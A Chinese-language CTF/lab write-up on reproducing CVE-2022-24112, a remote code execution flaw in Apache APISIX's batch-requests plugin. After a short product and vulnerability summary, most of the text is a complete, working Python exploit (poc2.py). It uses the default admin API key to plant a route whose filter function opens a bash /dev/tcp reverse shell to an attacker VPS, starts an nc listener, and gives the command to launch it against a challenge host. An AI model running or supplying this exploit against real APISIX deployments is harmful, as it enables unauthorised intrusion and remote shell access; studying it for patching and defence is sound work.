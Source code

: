 > 参考：[Apache APISIX Dashboard（CVE-2022-24112）命令执行漏洞方式利用\_长白山攻防实验室的博客-CSDN博客](https://blog.csdn.net/include_voidmain/article/details/124096869)
> 注，漏洞的详细分析可以参看上面这篇博文

## 1. Apache APISIX 介绍
Apache Apisix是美国阿帕奇（Apache）基金会的一个云原生的微服务API网关服务。该软件基于 OpenResty 和 etcd 来实现，具备动态路由和插件热加载，适合微服务体系下的 API 管理。
> Apache APISIX 是一个动态、实时、高性能的开源 API 网关，提供负载均衡、动态上游、灰度发布、服务熔断、身份认证、可观测性等丰富的流量管理功能。Apache APISIX 可以帮助企业快速、安全地处理 API 和微服务流量，包括网关、Kubernetes Ingress 和服务网格等。

![](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308271049677.png)

## 2. 漏洞介绍
Apache APISIX中存在远程代码执行漏洞，该漏洞源于产品的batch-requests插件未对用户的批处理请求进行有效限制。攻击者可通过该漏洞绕过Admin API的IP限制，容易导致远程代码执行。
- 漏洞编号：CVE-2022-24112
- 影响版本：Apache APISIX < 2.12.1，Apache APISIX < 2.10.4 (LTS versions)
- 漏洞类型: 命令执行

## 3. 漏洞复现
### 3.1. 个人有 VPS 的复现
用 [CVE-2022-24112-POC](https://github.com/twseptian/cve-2022-24112) 攻击获取 shell
在 VPS 上开启 nc 监听

```python
python3 poc2.py -t eci-2ze5sddv1nd77pcngx3i.cloudeci1.ichunqiu.com -p 9080 -L VPS_IP -P VPS_PORT
```

脚本攻击后会直接获得shell，接着读取 /flag 即可。
poc2.py【代码备份】
```python
#!/usr/bin/python3
# Exploit Title: Apache APISIX 2.12.1 - Remote Code Execution (RCE)
# Vendor Homepage: https://apisix.apache.org/
# Version: Apache APISIX 1.3 – 2.12.1
# Tested on: Kali Linux
# CVE : CVE-2022-24112

import requests
import sys
import subprocess
import shlex
import argparse

class Interface ():
	def __init__ (self):
		self.red = '\033[91m'
		self.green = '\033[92m'
		self.white = '\033[37m'
		self.yellow = '\033[93m'
		self.bold = '\033[1m'
		self.end = '\033[0m'

	def header(self):
		print('\n    >> Apache APISIX 2.12.1 - Remote Code Execution (RCE)')
		print('    >> by twseptian\n')

	def info (self, message):
		print(f"[{self.white}*{self.end}] {message}")

	def warning (self, message):
		print(f"[{self.yellow}!{self.end}] {message}")

	def error (self, message):
		print(f"[{self.red}x{self.end}] {message}")

	def success (self, message):
		print(f"[{self.green}✓{self.end}] {self.bold}{message}{self.end}")

# Instantiate our interface class
global output
output = Interface()
output.header()

class Exploit:
    def __init__(self, target_ip, target_port, localhost,localport):
        self.target_ip = target_ip
        self.target_port = target_port
        self.localhost = localhost
        self.localport = localport
    
    def get_rce(self):
        headers1 = {
            'Host': '{}:8080'.format(target_ip),
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69',
            'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
            'Accept': '*/*','Accept-Encoding': 'gzip, deflate',
            'Content-Type': 'application/json',
            'Content-Length': '540','Connection': 'close',
        }
        headers2 = {
            'Host': '{}:8080'.format(target_ip),
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36 Edg/97.0.1072.69',
            'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
            'Accept': '*/*','Accept-Encoding': 'gzip, deflate',
            'Content-Type': 'application/json',
            'Connection': 'close',
        }
        json_data = {
            'headers': {
                'X-Real-IP': '{}:8080'.format(target_ip),
                'X-API-KEY': 'edd1c9f034335f136f87ad84b625c8f1',
                'Content-Type': 'application/json',
            },
            'timeout': 1500,
            'pipeline': [
                { 
                    'path': '/apisix/admin/routes/index','method': 'PUT',
                    'body': '{"uri":"/rms/fzxewh","upstream":{"type":"roundrobin","nodes":{"schmidt-schaefer.com":1}},"name":"wthtzv","filter_func":"function(vars) os.execute(\'bash -c \\\\\\"0<&160-;exec 160<>/dev/tcp/'+localhost+'/'+localport+';/bin/sh <&160 >&160 2>&160\\\\\\"\'); return true end"}',
                },
            ],
        }
        
        output.warning("Take RCE\n")
        response1 = requests.post('http://'+target_ip+':'+target_port+'/apisix/batch-requests', headers=headers1, json=json_data, verify=False)
        listener = "nc -nvlp {}".format(localport)
        cmnd = shlex.split(listener)
        subprocess.Popen(cmnd)
        response2 = requests.get('http://'+target_ip+':'+target_port+'/rms/fzxewh', headers=headers2, verify=False)

def get_args():
    parser = argparse.ArgumentParser(description='Apache APISIX 2.12.1 - Remote Code Execution (RCE)')
    parser.add_argument('-t', '--rhost', dest="target_ip", required=True, action='store', help='Target IP')
    parser.add_argument('-p', '--rport', dest="target_port", required=True, action='store', help='Target Port')
    parser.add_argument('-L', '--lhost', dest="localhost", required=True, action='store', help='Localhost/Local IP')
    parser.add_argument('-P', '--lport', dest="localport", required=True, action='store', help='Localport')
    args = parser.parse_args()
    return args

try:
    args = get_args()
    target_ip = args.target_ip
    target_port = args.target_port
    localhost = args.localhost
    localport = args.localport
    
    exp = Exploit(target_ip, target_port, localhost, localport)
    exp.get_rce()
except KeyboardInterrupt:
    pass
```

当然用这个脚本也行[Apache APISIX 2.12.1 - Remote Code Execution (RCE) - Multiple remote Exploit](https://www.exploit-db.com/exploits/50829)
### 3.2. 本地搭建环境复现
参见 Vulhub 靶场 CVE-2022-24112【RCE】